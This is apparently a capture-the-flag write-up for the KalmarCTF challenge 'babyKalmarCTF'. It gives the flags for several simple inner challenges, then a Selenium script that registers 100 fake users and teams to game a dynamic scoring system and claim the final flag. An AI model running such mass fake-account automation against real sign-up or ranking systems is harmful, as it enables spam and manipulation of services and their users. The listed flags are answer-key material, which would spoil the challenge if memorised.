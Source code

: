# babyKalmarCTF

Solved by: @OS1R1S and @gr1d

Question: 
Ever played a CTF inside a CTF?

We were looking for a new scoring algorithm which would both reward top teams for solving super hard challenges, but also ensure that the easiest challenges wouldn't go to minimum straight away if more people played than we expected.

Thats when we came across this ingenious suggestion! [https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1](https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1)

We've implemented it this scoring idea(see here: [https://github.com/blatchley/ctfd-dynamic-challenges-mod](https://github.com/blatchley/ctfd-dynamic-challenges-mod) ) and spun up a small test ctf to test it out.

If you manage to win babykalmarCTF, we'll even give you a flag at /flag!

Spin up your own personal babykalmarCTF here: [https://lab1.kalmarc.tf/](https://lab1.kalmarc.tf/)


### Solution:
1. Within babyKalmarCTF there are several categories of challenges:
	- Baby's first RSA adventure (Crypto)
	- My First Flagchecker (Reverse)
	- THE OSINT CHALLENGE (osint)
	- Baffling, Ridiculous And Intriguing Letters, Laughter Ensues! (Misc)
	- Welcome Flag (welcome)
	- Simple  Math Challenge (Impossible)
	- Baby's Second RSA (Impossible)
	- A randcrack challenge (Impossible)
	- The Last Step (Impossible)
	
2. Welcome Flag's solution: 

	![babykalmar1.png](babykalmar1.png)
	
	**Flag:** `babykalmar{welcome_to_babykalmar_CTF}`
	
3. My First Flagchecker's solution:
	 - ltrace will show the strcmp value 
	 ![babykalmar2.png](babykalmar2.png)
	 - In disassembler, the string value will show in the .rodata section
	 ![babykalmar3.png](babykalmar3.png)
	**Flag:** `babykalmar{string_compare_rev_ayoooooooo}`
	
4. THE OSINT CHALLENGE's solution:
	- Challenge Image given:
	  ![babykalmar4.png](babykalmar4.png)
	- Using Google Images, which show is a Department of Computer Science, University in Aarhus, Denmark
	- The city which is located is `aarhus`
	- **Flag:** `babykalmar{aarhus}`
	
5. Baffling, Ridiculous And Intriguing Letters, Laughter Ensues's solution:
	- **Flag:** `BABYKALMAR{SUPERORIGINALMORSECODECHALLENGE}`
	
6. Baby's first RSA adventure's solution:
	- Flag: `babykalmar{wow_you_are_an_rsa_master!!!!!}`

After solving all the challenges, we have to trick the scoring system. Here is the script
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

# Set up Firefox WebDriver
options = webdriver.FirefoxOptions()
options.headless = False

driver = webdriver.Firefox(options=options)

register_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/register"
team_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/teams/new"
logout_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/logout"

for i in range(100): 
    driver.get(register_url)
    
    username = f"FakeUser{i}"
    email = f"fakeuser{i}@example.com"
    password = "P@ssw0rd123"

    driver.find_element(By.ID, "name").send_keys(username)
    driver.find_element(By.ID, "email").send_keys(email)
    driver.find_element(By.ID, "password").send_keys(password)

    driver.find_element(By.ID, "_submit").click()

    time.sleep(2)

    driver.get(team_url)
    
    team_name = f"FakeTeam{i}"
    driver.find_element(By.ID, "name").send_keys(team_name)
    driver.find_element(By.ID, "password").send_keys("TeamP@ssw0rd")

    driver.find_element(By.ID, "_submit").click()

    print(f"Registered {username} & Created Team {team_name}")

    driver.get(logout_url)
    time.sleep(2) 

driver.quit()
```

Here is how it works:
![babykalmar5](babykalmar5.gif)
Then we can get the flag at `/flag` 
![babykalmar6](babykalmar6.gif)
**Flag:** `kalmar{w0w_y0u_b34t_k4lm4r_1n_4_c7f?!?}`

